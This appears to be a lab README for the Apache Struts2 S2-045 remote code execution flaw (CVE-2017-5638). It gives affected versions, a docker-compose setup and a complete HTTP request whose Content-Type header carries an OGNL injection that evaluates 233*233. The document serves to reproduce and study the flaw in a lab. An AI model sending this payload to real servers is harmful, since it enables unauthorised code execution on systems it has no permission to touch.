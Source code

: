 # S2-045 Remote Code Execution Vulnerablity（CVE-2017-5638）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

References:

 - http://struts.apache.org/docs/s2-045.html
 - https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

## Setup

Execute the following command to start the Struts2 2.3.30：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example of the upload page.

## Exploitation

Verify the vulnerability by following request:

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

`233*233` has been successfully executed:

![](1.png)
